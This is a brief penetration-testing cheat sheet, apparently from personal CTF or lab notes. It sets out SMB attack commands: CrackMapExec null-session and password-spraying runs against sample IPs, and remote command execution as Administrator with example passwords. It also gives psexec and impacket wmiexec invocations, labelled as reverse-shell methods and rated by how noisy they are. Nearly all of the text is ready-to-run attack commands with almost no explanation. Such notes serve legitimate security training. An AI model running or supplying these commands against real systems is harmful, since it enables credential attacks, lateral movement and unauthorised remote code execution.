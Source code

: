 ## Crackmapexec

### Null auth
```bash
crackmapexec smb 10.129.227.255 -u '' -p '' --continue-on-success
```

### With creds
```bash
crackmapexec smb 10.129.227.255 -u <username/users_list.txt> -p <password/password_list.txt> --continue-on-success
```

## Execute Commands (with creds)

```bash
crackmapexec smb 192.168.10.11 -u Administrator -p 'P@ssw0rd' -x whoami #Excute cmd
# Using --exec-method {mmcexec,smbexec,atexec,wmiexec} -> default = wmiexec
```
```bash
psexec \\192.168.122.66 -u Administrator -p 123456Ww
```
```bash
./wmiexec.py [[domain/]username[:password]@]<targetName or address> #Prompt for password
```

### Reverse Shell
```bash
# wmiexec is less noisy than psexec
/usr/bin/impacket-wmiexec <username>@192.168.56.102
```
```bash
# psexec
# Drosp a binary on the target → Noisy
/usr/share/doc/python-impacket/examples/psexec.py $domain/$username:$password@192.168.56.102
```
